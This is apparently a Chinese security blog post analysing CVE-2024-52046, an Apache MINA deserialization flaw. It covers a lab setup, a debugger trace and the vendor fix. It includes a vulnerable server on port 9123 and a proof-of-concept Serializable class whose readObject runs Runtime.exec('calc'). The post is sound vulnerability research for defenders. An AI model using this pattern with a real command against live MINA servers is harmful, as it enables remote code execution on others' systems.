 #  CVE-2024-52046 Apache mina 反序列化漏洞简单分析   
原创 hulala14  呼啦啦安全   2025-02-11 03:22  
  
前言最近披露了一个新的apache下属产品mina的CVE-2024-52046反序列化漏洞，这个产品mina之前没有接触过，好奇心驱使之下准备一下并记录一下学习的过程首先查看cve官网公开的部分漏洞信息https://www.cve.org/CVERecord?id=CVE-2024-52046  
![](https://mmbiz.qpic.cn/mmbiz_png/L6MCxPWAoPmAVkBeZz5RyqYeOd5AYJSynXcZzWHlB2n70Rd7gM8DrDDdzrMlSxwAamYibwLHvXiabdTs9QIQFDxw/640?wx_fmt=png&from=appmsg "")  
感觉有点乱，像这种apache产品的漏洞一般在apache邮件列表归档网站中也会有信息，下滑果然在references中找到了参考链接，查看原来的提交信息https://lists.apache.org/thread/4wxktgjpggdbto15d515wdctohb0qmv8  
![](https://mmbiz.qpic.cn/mmbiz_png/L6MCxPWAoPmAVkBeZz5RyqYeOd5AYJSyRgkxeeSk83wM2y6NMb8JH6VMDPxwzw9l0ia6S6VJs6kqLZRU5eGRGxw/640?wx_fmt=png&from=appmsg "")  
这句就是这个反序列化的核心，翻译过来的大概意思是：需要注意的是，使用 MINA 核心库的应用程序只有在调用 IoBuffer#getObject() 方法时才会受到影响，而这个特定方法在使用ObjectSerializationCodecFactory 类将实例添加到过滤器链时可能会被调用。如果您的应用程序特别使用这些类，则必须升级到最新版本的 MINA 核心库。了解Apache mina获取这个漏洞的基础信息后，需要了解一些Apache Mina的基础知识，这样才能简单的在本地搭建漏洞环境来复现漏洞并深入研究漏洞的代码成因。Apache Mina是一个能够帮助用户开发高性能和高伸缩性网络应用程序的框架。它通过Java nio技术基于TCP/IP和UDP/IP协议提供了抽象的、事件驱动的、异步的API。是用来代替NIO网络框架的，对NIO框架进行了一层封装的Socket库。Mina框架被分成了主要的3个组件部分：    I/O Service，具体提供服务的组件。    I/O Filter Chain，过滤器链，用于支持各种切面服务。    I/O Handler，用于处理用户的业务逻辑。在 Apache MINA 的 I/O 过滤器链中，有多种处理数据的类和过滤器，每种都有其特定的功能和用途。以下是一些常见的处理数据的过滤器和类：1. 编解码器过滤器ProtocolCodecFilter：用于添加编解码器，支持将数据编码为字节流或从字节流解码为对象。常用的编解码器包括：    TextLineCodecFactory：用于处理文本行的编解码。    ObjectSerializationCodecFactory：用于处理 Java 对象的序列化和  反序列化。    ByteArrayCodecFactory：用于处理字节数组的编解码。2. 日志过滤器LoggingFilter：用于记录传入和传出的数据，方便调试和监控。可以配置日志级别和输出格式。3. 异常处理过滤器ExceptionFilter：用于处理在数据处理过程中发生的异常，提供统一的异常处理机制。4. 计时器过滤器IdleStateFilter：用于检测空闲状态（如读取或写入空闲），可以帮助实现超时机制和连接管理。5. 身份验证过滤器SslFilter：用于在传输层提供 SSL/TLS 加密，确保数据的安全性。AuthenticationFilter：用于身份验证，可以与其他安全机制结合使用。6. 自定义过滤器开发者可以自定义过滤器，以满足特定需求。自定义过滤器可以实现任何需要的处理逻辑，如数据转换、验证等。了解了Apache mina的基础架构之后，我们通过公开的漏洞信息和了解的mina的大概架构，能够猜测到漏洞的位置就存在于架构的编解码器过滤器使用的ObjectSerializationCodecFactory类中，这个类也是mina专门用于处理Java 对象的序列化和反序列化的编解码器。搭建验证环境我们编写一个基础的 Apache MINA 实现示例，使用 ObjectSerializationCodecFactory 作为编解码器。在pom.xml中加入Apache MINA 的 Maven 依赖，符合漏洞版本即可```
<dependency>
    <groupId>org.apache.mina</groupId>
    <artifactId>mina-core</artifactId>
    <version>2.1.5</version> <!-- 请根据需要选择最新版本 -->
</dependency>
```  
创建一个java类```
import java.io.Serializable;
public class Message implements Serializable {
    private static final long serialVersionUID = 1L;
    
    private Object content; // 存储任意类型的内容
    public Message(Object content) {
        this.content = content;
    }
    public Object getContent() {
        return content;
    }
}
```  
创建服务器```
import org.apache.mina.core.session.IoSession;
import org.apache.mina.core.service.IoHandlerAdapter;
import org.apache.mina.filter.codec.ProtocolCodecFilter;
import org.apache.mina.filter.codec.serialization.ObjectSerializationCodecFactory;
import org.apache.mina.transport.socket.nio.NioSocketAcceptor;
import java.net.InetSocketAddress;
// 创建一个简单的 MINA 服务器
public class MinaServer {
    public static void main(String[] args) throws Exception {
        // 创建 NioSocketAcceptor 实例
        NioSocketAcceptor acceptor = new NioSocketAcceptor();
        
        // 添加编解码器过滤器，使用对象序列化编解码
        acceptor.getFilterChain().addLast("codec", new ProtocolCodecFilter(new ObjectSerializationCodecFactory()));
        
        // 设置消息处理器
        acceptor.setHandler(new ServerHandler());
        
        // 绑定服务器到指定端口
        acceptor.bind(new InetSocketAddress(9123));
        System.out.println("Server started on port 9123...");
    }
    // 处理接收到消息的处理器
    private static class ServerHandler extends IoHandlerAdapter {
        @Override
        public void messageReceived(IoSession session, Object message) {
            // 检查接收到的消息类型
            if (message instanceof Message) {
                Message msg = (Message) message; // 类型转换
                System.out.println("Received: " + msg.getContent()); // 打印接收到的消息内容
            }
        }
        @Override
        public void exceptionCaught(IoSession session, Throwable cause) {
            // 处理异常
            cause.printStackTrace();
            session.closeNow(); // 关闭会话
        }
    }
}
```  
先运行服务器代码，再运行客户端，看到服务器端接收到客户端信息成功即环境搭建成功  
![](https://mmbiz.qpic.cn/mmbiz_png/L6MCxPWAoPmAVkBeZz5RyqYeOd5AYJSy1fcjuoI7Nn3KsxBXM8rNByhxiawl0k8GrTtXoczZyE0eMOJWRy6cbyA/640?wx_fmt=png&from=appmsg "")  
代码调试通过前面的了解，我们知道代码漏洞处于ProtocolCodecFilter编解码器里的ObjectSerializationCodecFactory类,而且发生在反序列化解码的阶段，我们在ProtocolCodecFilter.messageReceived打下断点，在decoder.decode(session, in, decoderOut)这部分代码用于可以查看输入缓冲区的内容，确保Message 对象被正确解码  
![](https://mmbiz.qpic.cn/mmbiz_png/L6MCxPWAoPmAVkBeZz5RyqYeOd5AYJSy67EBAGKjSiahNhSm2ZjwZCiaevxL8ZubABY55exqKTPK78CpvZcSn88Q/640?wx_fmt=png&from=appmsg "")  
接着调试，ObjectSerializationCodecFactory 创建的具体解码器是 ObjectSerializationDecoder，该类实现了 ProtocolDecoder 接口。它负责将字节流反序列化为 Java 对象。  
![](https://mmbiz.qpic.cn/mmbiz_png/L6MCxPWAoPmAVkBeZz5RyqYeOd5AYJSyVbkmzY8SmLBN6YImj4xN0tldJTRPQDw5fAibgc8YgNM5bv29iblGbPmA/640?wx_fmt=png&from=appmsg "")  
往下接着进行调试，在AbstractIoBuffer.getObject方法中完成反序列化  
![](https://mmbiz.qpic.cn/mmbiz_png/L6MCxPWAoPmAVkBeZz5RyqYeOd5AYJSynet1rAIfQRJ02Ts7BvWslT4RvwEwEJYY9qRUmViaibbibr0jmdDflWRicg/640?wx_fmt=png&from=appmsg "")  
漏洞验证我们创建一个恶意类，放到客户端代码中发送进行测试```
package ora.mina;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
public class Calc implements Serializable {
    private static final long serialVersionUID = 1L; // 建议添加序列化唯一标识
    // 默认构造器
    public Calc() {
        // 可以在这里初始化一些变量
    }
    // 实际要执行的方法
    public String execute() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
            System.out.println("启动计算器失败: " + e.getMessage());
        }
        return "计算器启动成功";
    }
    // 重写 readObject 方法
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        // 反序列化后调用 execute 方法
        execute();
    }
}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/L6MCxPWAoPmAVkBeZz5RyqYeOd5AYJSyKbTYMnjI1nrhicqASx4bXFQeTVia5eUdIOMaTQJuJGsQQUcVWMibSI4HQ/640?wx_fmt=png&from=appmsg "")  
调试MinaServer并运行MinaClient，在运行到return in.readObject()后反序列化出咱们发送的calc类，执行了计算器命令  
![](https://mmbiz.qpic.cn/mmbiz_png/L6MCxPWAoPmAVkBeZz5RyqYeOd5AYJSyTFgnpGPQ9iaWorvz8AzBnhB8U3CC85mPP7Jibfp5NlUX9l7WBgzFhSog/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/L6MCxPWAoPmAVkBeZz5RyqYeOd5AYJSyC8Fxlx32ib9KWCyJmYEvyTLdSPcDSRuPayKvxNGmXiaDqz59yibzgB3pQ/640?wx_fmt=png&from=appmsg "")  
修复查看2.1.10的更新，相比于之前，在漏洞产生的过程中加入了类的验证  
![](https://mmbiz.qpic.cn/mmbiz_png/L6MCxPWAoPmAVkBeZz5RyqYeOd5AYJSy2xlFPZJvfV6NWMNDoz6cQjfOEYfSxxBWI8T95wAQp6zKLoA2sXjdcg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/L6MCxPWAoPmAVkBeZz5RyqYeOd5AYJSy2pQPjGnd9RJwbytzqLHb14aMz55nUthVKlU9J0aQFz9IXMVUKfCOiaA/640?wx_fmt=png&from=appmsg "")  
  
  
本文仅用于技术讨论与学习，利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者及本公众号不为此承担任何责任  
。  
  
ps:如果想一块讨论  
渗透  
&代码审计&APP逆向可以添加下面的微信号相互交流  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/L6MCxPWAoPmgTQ0gAcmbtASnqDvCc0f1Ba8h6X8azg1ec3U2v09dgj4iclzgLMCYJkPWEMrndzVZ0LvPXyzhuPw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
欢迎关注公众号“呼啦啦安全”，原创技术文章第一时间推送。  
  
  
  
